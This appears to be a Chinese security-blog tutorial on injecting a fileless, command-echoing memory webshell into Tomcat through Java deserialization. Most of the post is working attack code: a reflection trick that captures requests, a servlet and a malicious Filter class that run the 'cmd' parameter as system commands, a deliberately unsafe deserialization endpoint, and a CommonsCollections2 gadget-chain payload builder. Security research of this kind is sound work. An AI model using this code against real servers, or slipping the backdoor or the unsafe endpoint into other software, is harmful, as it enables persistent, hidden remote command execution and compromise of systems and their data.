


# Tomcat 反序列化注入回显内存马 - 先知社区

Tomcat 反序列化注入回显内存马

- - -

# 前言

在之前学的 tomcat filter、listener、servlet 等内存马中，其实并不算真正意义上的内存马，因为 Web 服务器在编译 jsp 文件时生成了对应的 class 文件，因此进行了文件落地。

所以本篇主要是针对于反序列化进行内存马注入来达到无文件落地的目的，而`jsp`的`request`和`response`可以直接获取，但是反序列化的时候却不能，所以回显问题便需要考虑其中。

# 构造回显

## 寻找获取请求变量

既然无法直接获取 request 和 response 变量，所以就需要找一个存储请求信息的变量，根据 kingkk 师傅的思路，在`org.apache.catalina.core.ApplicationFilterChain`中找到了：

```plain
private static final ThreadLocal<ServletRequest> lastServicedRequest;
private static final ThreadLocal<ServletResponse> lastServicedResponse;
```

并且这两个变量是静态的，因此省去了获取对象实例的操作。

在该类的最后发现一处静态代码块，对两个变量进行了初始化，而 WRAP\_SAME\_OBJECT 的默认值为 false，所以两个变量的默认值也就为 null 了，所以要寻找一处修改默认值的地方。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210334-152a5742-e5c5-1.png)

在`ApplicationFilterChain#internalDoFilter` 中发现，当 WRAP\_SAME\_OBJECT 为 true 时，就会通过 set 方法将请求信息存入 lastServicedRequest 和 lastServicedResponse 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210358-23c08da8-e5c5-1.png)

## 反射构造回显

所以接下来的目标就是通过反射修改 WRAP\_SAME\_OBJECT 的值为 true，同时初始化 lastServicedRequest 和 lastServicedResponse

POC：

```plain
package memoryshell.UnserShell;

import org.apache.catalina.core.ApplicationFilterChain;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;


public class getRequest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp){
        try {
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);

            String cmd = lastServicedRequest!=null ? lastServicedRequest.get().getParameter("cmd"):null;

            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null,new ThreadLocal());
                lastServicedResponseField.set(null,new ThreadLocal());
            } else if (cmd!=null){
                InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                byte[] bcache = new byte[1024];
                int readSize = 0;
                try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                    while ((readSize =in.read(bcache))!=-1){
                        outputStream.write(bcache,0,readSize);
                    }
                    lastServicedResponse.get().getWriter().println(outputStream.toString());
                }
            }

        } catch (Exception e){
            e.printStackTrace();
        }
    }


    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
    }
    public void setFinalStatic(Field field) throws NoSuchFieldException, IllegalAccessException {
        field.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
    }
}
```

这里的`WRAP_SAME_OBJECT`、`lastServicedRequest`、`lastServicedResponse`都是 static final 类型的，所以反射获取变量时，需要先进行如下操作：[反射修改 static final 静态变量值](https://blog.csdn.net/qq_37687594/article/details/121317703)

```plain
public void setFinalStatic(Field field) throws NoSuchFieldException, IllegalAccessException {
    field.setAccessible(true);
    Field modifiersField = Field.class.getDeclaredField("modifiers");
    modifiersField.setAccessible(true);
    modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
}
```

**web.xml**

```plain
<servlet>
    <servlet-name>getRequest</servlet-name>
    <servlet-class>memoryshell.UnserShell.getRequest</servlet-class>
</servlet>

<servlet-mapping>
    <servlet-name>getRequest</servlet-name>
    <url-pattern>/demo</url-pattern>
</servlet-mapping>
```

第一次访问/demo 路径，将 request 和 response 存储到 lastServicedRequest 和 lastServicedResponse 中

第二次访问成功将 lastServicedResponse 取出，从而达到回显目的

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210722-9d29b05c-e5c5-1.png)

## 流程分析

**第一次访问/demo**

由于请求还没存储到变量中此时`WRAP_SAME_OBJECT`的值为 null，因此 lastServicedRequest 和 lastServicedResponse 为 null

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210707-942374fc-e5c5-1.png)  
由于`IS_SECURITY_ENABLED`的默认值是 false，所以执行到`service()`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210657-8e72caf8-e5c5-1.png)  
`service()`中调用`doGet()`，就调用到了 poc 中的`doGet()`方法中，对上边提到的三个变量进行了赋值：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210641-84d25e82-e5c5-1.png)  
之后`WRAP_SAME_OBJECT`变为 true，进入了 if，将`lastServicedRequest`和`lastServicedResponse`设为 object 类型的 null

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210621-78f7b83c-e5c5-1.png)  
**第二次访问/demo**

由于第一次将`WRAP_SAME_OBJECT`修改为了`true`，因此进入 if 将 request、response 存储到了`lastServicedRequest`、`lastServicedResponse`中

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210541-611533b6-e5c5-1.png)  
之后又调用了`service()`

```plain
this.servlet.service(request, response);
```

再调用`doGet()`，此时`lastServicedRequest`不为 null，因此获取到了 cmd 参数，并通过 lastServicedResponse 将结果输出

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210522-556353e0-e5c5-1.png)

# 反序列化注入

## 环境配置

这里尝试用 CC2 打所以引入`commons-collections`包

```plain
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

导入依赖后，手动加到 war 包中

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210500-48bb15a6-e5c5-1.png)  
除此外还需要构造一个反序列化入口

```plain
package memoryshell.UnserShell;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.Base64;

public class CCServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String exp = req.getParameter("exp");
        byte[] decode = Base64.getDecoder().decode(exp);
        ByteArrayInputStream bain = new ByteArrayInputStream(decode);
        ObjectInputStream oin = new ObjectInputStream(bain);
        try {
            oin.readObject();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
        resp.getWriter().write("Success");
    }

}
```

**web.xml**

```plain
<servlet>
        <servlet-name>getRequest</servlet-name>
        <servlet-class>memoryshell.UnserShell.getRequest</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>getRequest</servlet-name>
        <url-pattern>/demo</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>cc</servlet-name>
        <servlet-class>memoryshell.UnserShell.CCServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>cc</servlet-name>
        <url-pattern>/cc</url-pattern>
    </servlet-mapping>
```

## 构造反序列化

### **第一步**

将 request 和 response 存入到 lastServicedRequest 和 lastServicedResponse 中，跟上边一样所以直接贴过来了

```plain
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);


            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null, new ThreadLocal());
                lastServicedResponseField.set(null, new ThreadLocal());
```

### **第二步**

通过 lastServicedRequest 和 lastServicedResponse 获取 request 和 response，然后利用 request 获取到 servletcontext 然后动态注册 Filter(由于是动态注册 filter 内存马来实现的，所以在后边的操作大致上与 filter 内存马的注册一致，后边会对比着来看)

**获取上下文环境**

在常规 filter 内存马中，是通过 request 请求获取到的 ServletContext 上下文

```plain
ServletContext servletContext = req.getSession().getServletContext();
```

而这里将 request 存入到了`lastServicedRequest`中，因此直接通过`lastServicedRequest`获取 ServletContext 即可

```plain
ServletContext servletContext = servletRequest.getServletContext();
```

**filter 对象**

其次构造恶意代码部分有些出处

在常规 filter 内存马中，是通过 new Filter 将 doFilter 对象直接实例化进去：

```plain
Filter filter = new Filter() {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
            byte[] bytes = new byte[1024];
            //Process process = new ProcessBuilder("bash","-c",req.getParameter("cmd")).start();
            Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
            int len = process.getInputStream().read(bytes);
            servletResponse.getWriter().write(new String(bytes,0,len));
            process.destroy();
            return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }

    @Override
    public void destroy() {

    }
};
```

而这里并不能直接将初始化的这三个方法 (init、doFilter)，包含到 Filter 对象中

具体原因我也不太清楚，猜测由于后边需要进行反序列化加载字节码所以需要继承 AbstractTranslet，但继承了它之后便不能继承 HttpServlet，无法获取 doFilter 方法中所需请求导致

所以这里采用的方法是实现 Filter 接口，并直接将把恶意类 FilterShell 构造成`Filter`

```plain
Filter filter = new FilterShell();
```

而 doFilter 方法便不再包含在 filter 实例中，而是直接在 FilterShell 类中实现，这样便也能实现常规 filter 内存马构造恶意类的效果

最终 POC：

```plain
package memoryshell.UnserShell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.*;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import javax.servlet.*;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Modifier;
import java.util.Map;

public class FilterShell extends AbstractTranslet implements Filter {
    static {
        try {
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);


            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null, new ThreadLocal());
                lastServicedResponseField.set(null, new ThreadLocal());
            }else {
                ServletRequest servletRequest = lastServicedRequest.get();
                ServletResponse servletResponse = lastServicedResponse.get();

                //开始注入内存马
                ServletContext servletContext = servletRequest.getServletContext();
                Field context = servletContext.getClass().getDeclaredField("context");
                context.setAccessible(true);
                // ApplicationContext 为 ServletContext 的实现类
                ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
                Field context1 = applicationContext.getClass().getDeclaredField("context");
                context1.setAccessible(true);
                // 这样我们就获取到了 context
                StandardContext standardContext = (StandardContext) context1.get(applicationContext);

                //1、创建恶意filter类
                Filter filter = new FilterShell();

                //2、创建一个FilterDef 然后设置filterDef的名字，和类名，以及类
                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName("Sentiment");
                filterDef.setFilterClass(filter.getClass().getName());

                // 调用 addFilterDef 方法将 filterDef 添加到 filterDefs中
                standardContext.addFilterDef(filterDef);
                //3、将FilterDefs 添加到FilterConfig
                Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
                Configs.setAccessible(true);
                Map filterConfigs = (Map) Configs.get(standardContext);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
                filterConfigs.put("Sentiment",filterConfig);

                //4、创建一个filterMap
                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName("Sentiment");
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                //将自定义的filter放到最前边执行
                standardContext.addFilterMapBefore(filterMap);

                servletResponse.getWriter().write("Inject Success !");
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InstantiationException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        if (request.getParameter("cmd") != null) {
            //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
            String[] cmds = {"cmd", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            byte[] bcache = new byte[1024];
            int readSize = 0;
            try (ByteArrayOutputStream outputStream = new ByteArrayOutputStream()) {
                while ((readSize = in.read(bcache)) != -1) {
                    outputStream.write(bcache, 0, readSize);
                }
                response.getWriter().println(outputStream.toString());
            }
        }


    }

    @Override
    public void destroy() {
    }
    public static void setFinalStatic(Field field) throws NoSuchFieldException, IllegalAccessException {
        field.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
    }
}
```

将恶意类的 class 文件，传入 cc2 构造 payload

```plain
package memoryshell.UnserShell;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class cc2 {

    public static void main(String[] args) throws Exception {
        Templates templates = new TemplatesImpl();
        byte[] bytes = getBytes();
        setFieldValue(templates,"_name","Sentiment");
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});

        InvokerTransformer invokerTransformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});


        TransformingComparator transformingComparator=new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue=new PriorityQueue<>(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c=transformingComparator.getClass();
        Field transformField=c.getDeclaredField("transformer");
        transformField.setAccessible(true);
        transformField.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("1.ser");

    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("1.ser"));
        out.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream In = new ObjectInputStream(new FileInputStream(Filename));
        Object o = In.readObject();
        return o;
    }
    public static byte[] getBytes() throws IOException {
        InputStream inputStream = new FileInputStream(new File("FilterShell.class"));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }

}
```

生成 1.ser，将其进行 base64 编码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210411-2b1d53a6-e5c5-1.png)  
传参两次，第一次将请求存入 lastServicedRequest 和 lastServicedResponse 中，第二次动态注册 filter 内存马

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210421-30f46b52-e5c5-1.png)  
注入后，成功执行命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20230428210431-3743bb34-e5c5-1.png)

# 后记

-   [linux 下 java 反序列化通杀回显方法的低配版实现 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7307)，李三师傅针对于[00theway 师傅的文章](https://www.00theway.org/2020/01/17/java-god-s-eye/)进行了 linux 下反序列化回显的总结。
-   [Tomcat 中一种半通用回显方法](https://xz.aliyun.com/t/7348)、[基于 tomcat 的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388)，之后师傅们引出了通过 response 进行注入的方式，但不足之处在于 shiro 中自定义了 doFilter 方法，因此无法在 shiro 中使用。
-   [基于全局储存的新思路 | Tomcat 的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3) ，针对上述问题师傅通过 currentThread.getContextClassLoader() 获取 StandardContext，进一步获取到 response，解决了 shiro 回显的问题，但不足在于 tomcat7 中无法获取到 StandardContext。
-   [基于 Tomcat 无文件 Webshell 研究](https://mp.weixin.qq.com/s/whOYVsI-AkvUJTeeDWL5dA) ，对上述方法进行了总结，但仍未解决 tomcat7 中的问题
-   [tomcat 不出网回显连续剧第六集](https://xz.aliyun.com/t/7535#toc-0) ,最后李三师傅又提出了解决 tomcat7+shiro 的方案

整个过程感觉非常有意思，但还没来得及学习，不得不说师傅们真的是 tql !!!
